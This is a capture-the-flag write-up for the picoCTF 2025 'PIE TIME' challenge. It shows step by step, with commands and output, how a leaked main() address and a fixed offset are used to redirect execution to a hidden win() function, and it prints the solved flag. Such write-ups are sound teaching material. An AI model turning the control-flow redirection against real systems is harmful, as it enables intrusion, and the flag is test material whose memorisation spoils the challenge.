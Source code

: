 # PicoCTF 2025

## PIE TIME

> Can you try to get the flag? Beware we have PIE!  
> Author: DARKRAICG492  
> [`PIE TIME`](PIE_TIME)

**Tags:** binary_exploitation

---

## 🧾 Overview

This challenge gave us a 64-bit PIE-enabled ELF binary named `vuln`. When executed, it prints the address of `main()` and prompts the user to enter an address to jump to. The goal is to calculate the address of a hidden `win()` function and redirect execution to it to get the flag.

---

## ✅ Solution

I started by checking the function offsets in the binary using `objdump`:

```bash
objdump -t vuln | grep main
```

**Output:**
```
000000000000133d g     F .text 00000000000000cc              main
```

Then I checked `win()`:

```bash
objdump -t vuln | grep win
```

**Output:**
```
00000000000012a7 g     F .text 0000000000000096              win
```

This showed that `win()` is located 0x96 bytes (150 in decimal) before `main()`.

The binary prints the runtime address of `main()` on each execution. When I connected to the remote challenge:

```bash
$ nc rescued-float.picoctf.net 53836
```

It displayed:

```
Address of main: 0x5d308662e33d
Enter the address to jump to, ex => 0x12345:
```

To find the address of `win()`, I subtracted the offset:

```bash
python3 -c "print(hex(0x5d308662e33d - 0x96))"
```

**Output:**
```
0x5d308662e2a7
```

I entered that value:

```
0x5d308662e2a7
```

And got:

```
You won!
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_ecb96bdd}
```

---

## Flag

```
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_ecb96bdd}
```
